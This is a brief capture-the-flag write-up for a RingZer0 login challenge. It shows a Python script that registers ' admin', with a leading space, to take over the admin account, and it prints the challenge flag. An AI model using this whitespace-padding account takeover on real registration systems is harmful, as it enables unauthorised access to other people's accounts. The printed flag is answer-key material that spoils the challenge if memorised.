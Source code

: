 <h1>Random Login Form</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10171/</p>
<h3>Solution</h3>
<p>Payload : &lt;space&gt;admin == admin</p>

```python3
import requests

s = requests.Session()
url = "http://challenges.ringzer0ctf.com:10171/"
data = {"new":" admin","new_password":"1234","submit":"Register"}
res = s.post(url,data=data).text
data = {"username":" admin","password":"1234"}
res = s.post(url,data=data).text
print(res)
```

<h3>Flag</h3>
<pre>
FLAG-0Kg64o8M9gPQfH45583Mc0jc3u
</pre>
